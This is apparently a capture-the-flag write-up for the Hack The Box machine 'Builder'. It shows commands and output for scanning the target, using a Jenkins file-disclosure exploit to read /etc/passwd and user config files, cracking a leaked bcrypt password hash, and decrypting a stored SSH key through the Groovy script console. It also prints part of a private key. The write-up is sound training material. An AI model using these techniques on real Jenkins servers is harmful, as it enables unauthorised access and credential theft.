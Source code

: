 ```yaml
---
title: "Builder"
date: 06-04-2025
categories: [Linux, Linux Medium]
tags: [Medium,Jenkins, LFI, Password Cracking]
image: https://labs.hackthebox.com/storage/avatars/a0f6d6a08e0806448341587cd59450a6.png
---
```


Builder is a medium Linux box. The machine only has two ports open one of which is an open **Jenkins** portal. This version of Jenkins is vulnerable to a file disclosure. Using this arbitrary file read we can read configuration files which give us a hashed password for a user that has login access to Jenkins. After cracking this password we can run a script inside groovy script which lets us decrypt the private ssh key that gives us root access.

![builder_info_card](/assets/images/builder/Builder.png)

## Enumeration

Using nmap we see that there are only two ports open, ssh and 8080 which points to a Jenkins instance.

```
nmap 10.10.11.10 -p22,8080 -oN nmap/builder -Pn -n -sCV
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-06 19:10 CEST
Nmap scan report for 10.10.11.10
Host is up (0.016s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
8080/tcp open  http    Jetty 10.0.18
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-title: Dashboard [Jenkins]
|_http-server-header: Jetty(10.0.18)
| http-robots.txt: 1 disallowed entry 
|_/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.59 seconds
```

If we go to `http://10.10.11.10:8080/` we get to view the Jenkins portal. At the bottom right we get which version is running which is 2.441. Going over the users page we see that there is another user registered that being Jennifer.

![builder](/assets/images/builder/page.png)

#### File Disclosure 

This version is vulnerable to a file disclosure, I used [this](https://www.exploit-db.com/exploits/51993) script to retrieve the files from the server. But before I could do this I had to get familiar with Jenkins and how it stores file and user information. Below is a handy table I found of how the jenkins home directory is structured. 

```
/jenkins
├── config.xml
├── credentials.xml
├── jobs
├── plugins
├── users
├── secrets
├── fingerprints
├── workspace
├── logs
├── updates
├── userContent
└── ...
```
We can already see some files that could be of interest. Before we can retrieve them we must know their full path. I stumbled upon it by luck when testing for the file disclosure, when retrieving the `/etc/passwd` file I found the user `Jenkins` with its home directory located at `var/jenkins_home`. With the full path we can now try to retrieve the files.

```
python3 LFI.py -u http://10.10.11.10:8080/ -p /etc/passwd
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
root:x:0:0:root:/root:/bin/bash
jenkins:x:1000:1000::/var/jenkins_home:/bin/bash
```

With this file we can see that there is no one with a home directory in this machine so reading ssh keys is not going to work to get us access. Reading the `credentials.xml` file provides us with an encrypted text which seems to be an ssh key. I tried some scripts to decrypt it with some secret keys but they did not work. After doing some more research I was able to find that the file inside of `var/jenkins_home/users/users.xml` contains information about users. 

```
python3 LFI.py -u http://10.10.11.10:8080/ -p /var/jenkins_home/users/users.xml
<?xml version='1.1' encoding='UTF-8'?>
      <string>jennifer_12108429903186576833</string>
  <idToDirectoryNameMap class="concurrent-hash-map">
    <entry>
      <string>jennifer</string>
  <version>1</version>
</hudson.model.UserIdMapper>
  </idToDirectoryNameMap>
<hudson.model.UserIdMapper>
    </entry>
```

#### Finding and Decrypting Jennifer's Password

From this we get that Jennifer has a directory with a name of `jennifer_12108429903186576833` inside this directory we can retrieve her configuration file. Which is located at `var/jenkins_home/users/jennifer_12108429903186576833/config.xml`. Inside this file we can find a hashed password.

```
python3 LFI.py -u http://10.10.11.10:8080/ -p /var/jenkins_home/users/jennifer_12108429903186576833/config.xml
...
...
<passwordHash>#jbcrypt:$2a$10$UwR7BpEH.ccfpi1tv6w/XuBtS44S7oUpR2JYiobqxcDQJeN/L4l1a</passwordHash>
```

The hash itself is `$2a$10$UwR7BpEH.ccfpi1tv6w/XuBtS44S7oUpR2JYiobqxcDQJeN/L4l1a` and we can use `Hashcat` with mode 3200 to crack it. Using `rockyou.txt` as a wordlist we get that the password is `princess`. Since Jennifer does not have a home directory and is not a user on the box we cant ssh into it just yet. But with this new credentials we can login as this user into the Jenkins instance.

#### Decrypting the SSH Key

Using [this](https://www.cloudsek.com/blog/xposing-the-exploitation-how-cve-2024-23897-led-to-the-compromise-of-github-repos-via-jenkins-lfi-vulnerability) blog post about the same CVE I was able to decrypt the ssh key that we previously found in the `credentials.xml` file. We can now go to http://10.10.11.10:8080/script/ where we can use the terminal to run the following line of code: 

```
println(hudson.util.Secret.fromString("{XXX=}").getPlainText())
```

After placing the encrypted key into `XXX` we get the private key to the user root which we can then use to ssh into the box.

```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAt3G9oUyouXj/0CLya9Wz7Vs31bC4rdvgv7n9PCwrApm8PmGCSLgv
...
```

![builder](/assets/images/builder/root.png)

